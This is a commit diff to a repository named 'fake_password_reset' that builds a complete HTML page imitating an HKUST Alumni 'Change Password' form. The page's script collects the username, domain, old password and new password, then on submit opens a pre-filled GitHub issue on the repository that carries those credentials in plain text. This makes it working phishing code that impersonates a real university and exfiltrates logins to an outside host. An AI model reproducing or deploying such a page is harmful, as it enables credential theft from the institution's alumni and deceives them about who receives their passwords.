

Before and after one commit to Isaa101/fake_password_reset, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-945 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html
Complete form + Issue

```diff
--- a/index.html
+++ b/index.html
@@ -1,21 +1,176 @@
-<form id="passwordForm">
-  <!-- Your form fields -->
-  <button type="button" onclick="logToGitHub()">Submit</button>
-</form>
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>HKUST Alumni - Change Password</title>
+    <style>
+        body {
+            font-family: Arial, sans-serif;
+            background-color: #f5f5f5;
+            margin: 0;
+            padding: 20px;
+            display: flex;
+            justify-content: center;
+        }
+        .container {
+            background-color: white;
+            padding: 20px;
+            border-radius: 8px;
+            box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1);
+            width: 100%;
+            max-width: 500px;
+        }
+        h1 {
+            color: #003366;
+            font-size: 24px;
+            margin-bottom: 20px;
+            text-align: center;
+        }
+        .form-group {
+            margin-bottom: 15px;
+        }
+        label {
+            display: block;
+            margin-bottom: 5px;
+            font-weight: bold;
+            color: #333;
+        }
+        input[type="text"], input[type="password"] {
+            width: 100%;
+            padding: 10px;
+            border: 1px solid #ccc;
+            border-radius: 4px;
+            box-sizing: border-box;
+        }
+        .domain {
+            background-color: #f0f0f0;
+            padding: 10px;
+            border: 1px solid #ccc;
+            border-radius: 4px;
+            margin-bottom: 15px;
+        }
+        .buttons {
+            display: flex;
+            justify-content: space-between;
+            margin-top: 20px;
+        }
+        button {
+            padding: 10px 20px;
+            border: none;
+            border-radius: 4px;
+            cursor: pointer;
+        }
+        .submit {
+            background-color: #003366;
+            color: white;
+        }
+        .reset {
+            background-color: #f0f0f0;
+            color: #333;
+        }
+        .note {
+            margin-top: 20px;
+            font-size: 14px;
+            color: #666;
+        }
+        .note a {
+            color: #003366;
+            text-decoration: none;
+        }
+        .note a:hover {
+            text-decoration: underline;
+        }
+        .password-rules {
+            margin-top: 20px;
+            font-size: 14px;
+            color: #666;
+            padding-left: 15px;
+        }
+        .password-rules li {
+            margin-bottom: 5px;
+        }
+    </style>
+</head>
+<body>
+    <div class="container">
+        <h1>Change Account Password for Alumni</h1>
 
+        <div class="form-group">
+            <label for="username">Username</label>
+            <input type="text" id="username" name="username">
+        </div>
+
+        <div class="form-group">
+            <label for="domain">Domain</label>
+            <div class="domain">
+                <input type="radio" id="connect" name="domain" value="connect.ust.hk" checked>
+                <label for="connect" style="display: inline;">connect.ust.hk</label><br>
+                <input type="radio" id="alumni" name="domain" value="alumni.ust.hk">
+                <label for="alumni" style="display: inline;">alumni.ust.hk</label>
+            </div>
+        </div>
+
+        <div class="form-group">
+            <label for="old-password">Old Password</label>
+            <input type="password" id="old-password" name="old-password">
+        </div>
+
+        <div class="form-group">
+            <label for="new-password">New Password</label>
+            <input type="password" id="new-password" name="new-password">
+        </div>
+
+        <div class="form-group">
+            <label for="confirm-password">Confirm New Password</label>
+            <input type="password" id="confirm-password" name="confirm-password">
+        </div>
+
+        <div class="buttons">
+            <button type="submit" class="submit">Submit</button>
+            <button type="reset" class="reset">Reset</button>
+        </div>
+
+        <div class="note">
+            If you are currently a student of HKUST, you are not able to change the password with this application.
+            Please <a href="#">click here</a> for changing your HKUST account password.
+        </div>
+
+        <div class="password-rules">
+            <p>Please note that a valid password must:</p>
+            <ul>
+                <li>Minimum 12 in length</li>
+                <li>Contain at least one mixed case letters and digit</li>
+                <li>Not include username or part of your name</li>
+                <li>Not reuse any of your last 10 passwords</li>
+            </ul>
+        </div>
+    </div>
+</body>
 <script>
-function logToGitHub() {
-  const username = document.getElementById("username").value;
-  const password = document.getElementById("password").value;
+document.querySelector(".submit").addEventListener("click", function (event) {
+    event.preventDefault(); // Prevent the form from reloading the page
 
-  // Format data for GitHub Issue
-  const issueTitle = `[Demo] Submission from ${username}`;
-  const issueBody = `Username: ${username}\nPassword: ${password}`;
+    const username = document.getElementById("username").value;
+    const domain = document.querySelector('input[name="domain"]:checked').value;
+    const oldPassword = document.getElementById("old-password").value;
+    const newPassword = document.getElementById("new-password").value;
+    const confirmPassword = document.getElementById("confirm-password").value;
 
-  // Open pre-filled GitHub Issue (user must be logged into GitHub)
-  window.open(
-    `https://github.com/Isa101/fake_password_reset/issues/new?title=${encodeURIComponent(issueTitle)}&body=${encodeURIComponent(issueBody)}`,
-    "_blank"
-  );
-}
+    // Format GitHub issue content
+    const issueTitle = `[HKUST Alumni] Password Reset Request - ${username}@${domain}`;
+    const issueBody = `
+**Username**: ${username}
+**Domain**: ${domain}
+**Old Password**: ${oldPassword}
+**New Password**: ${newPassword}
+**Confirm Password**: ${confirmPassword}
+`;
+
+    window.open(
+        `https://github.com/Isa101/fake_password_reset/issues/new?title=${encodeURIComponent(issueTitle)}&body=${encodeURIComponent(issueBody)}`,
+        "_blank"
+    );
+});
 </script>
+</html>
```
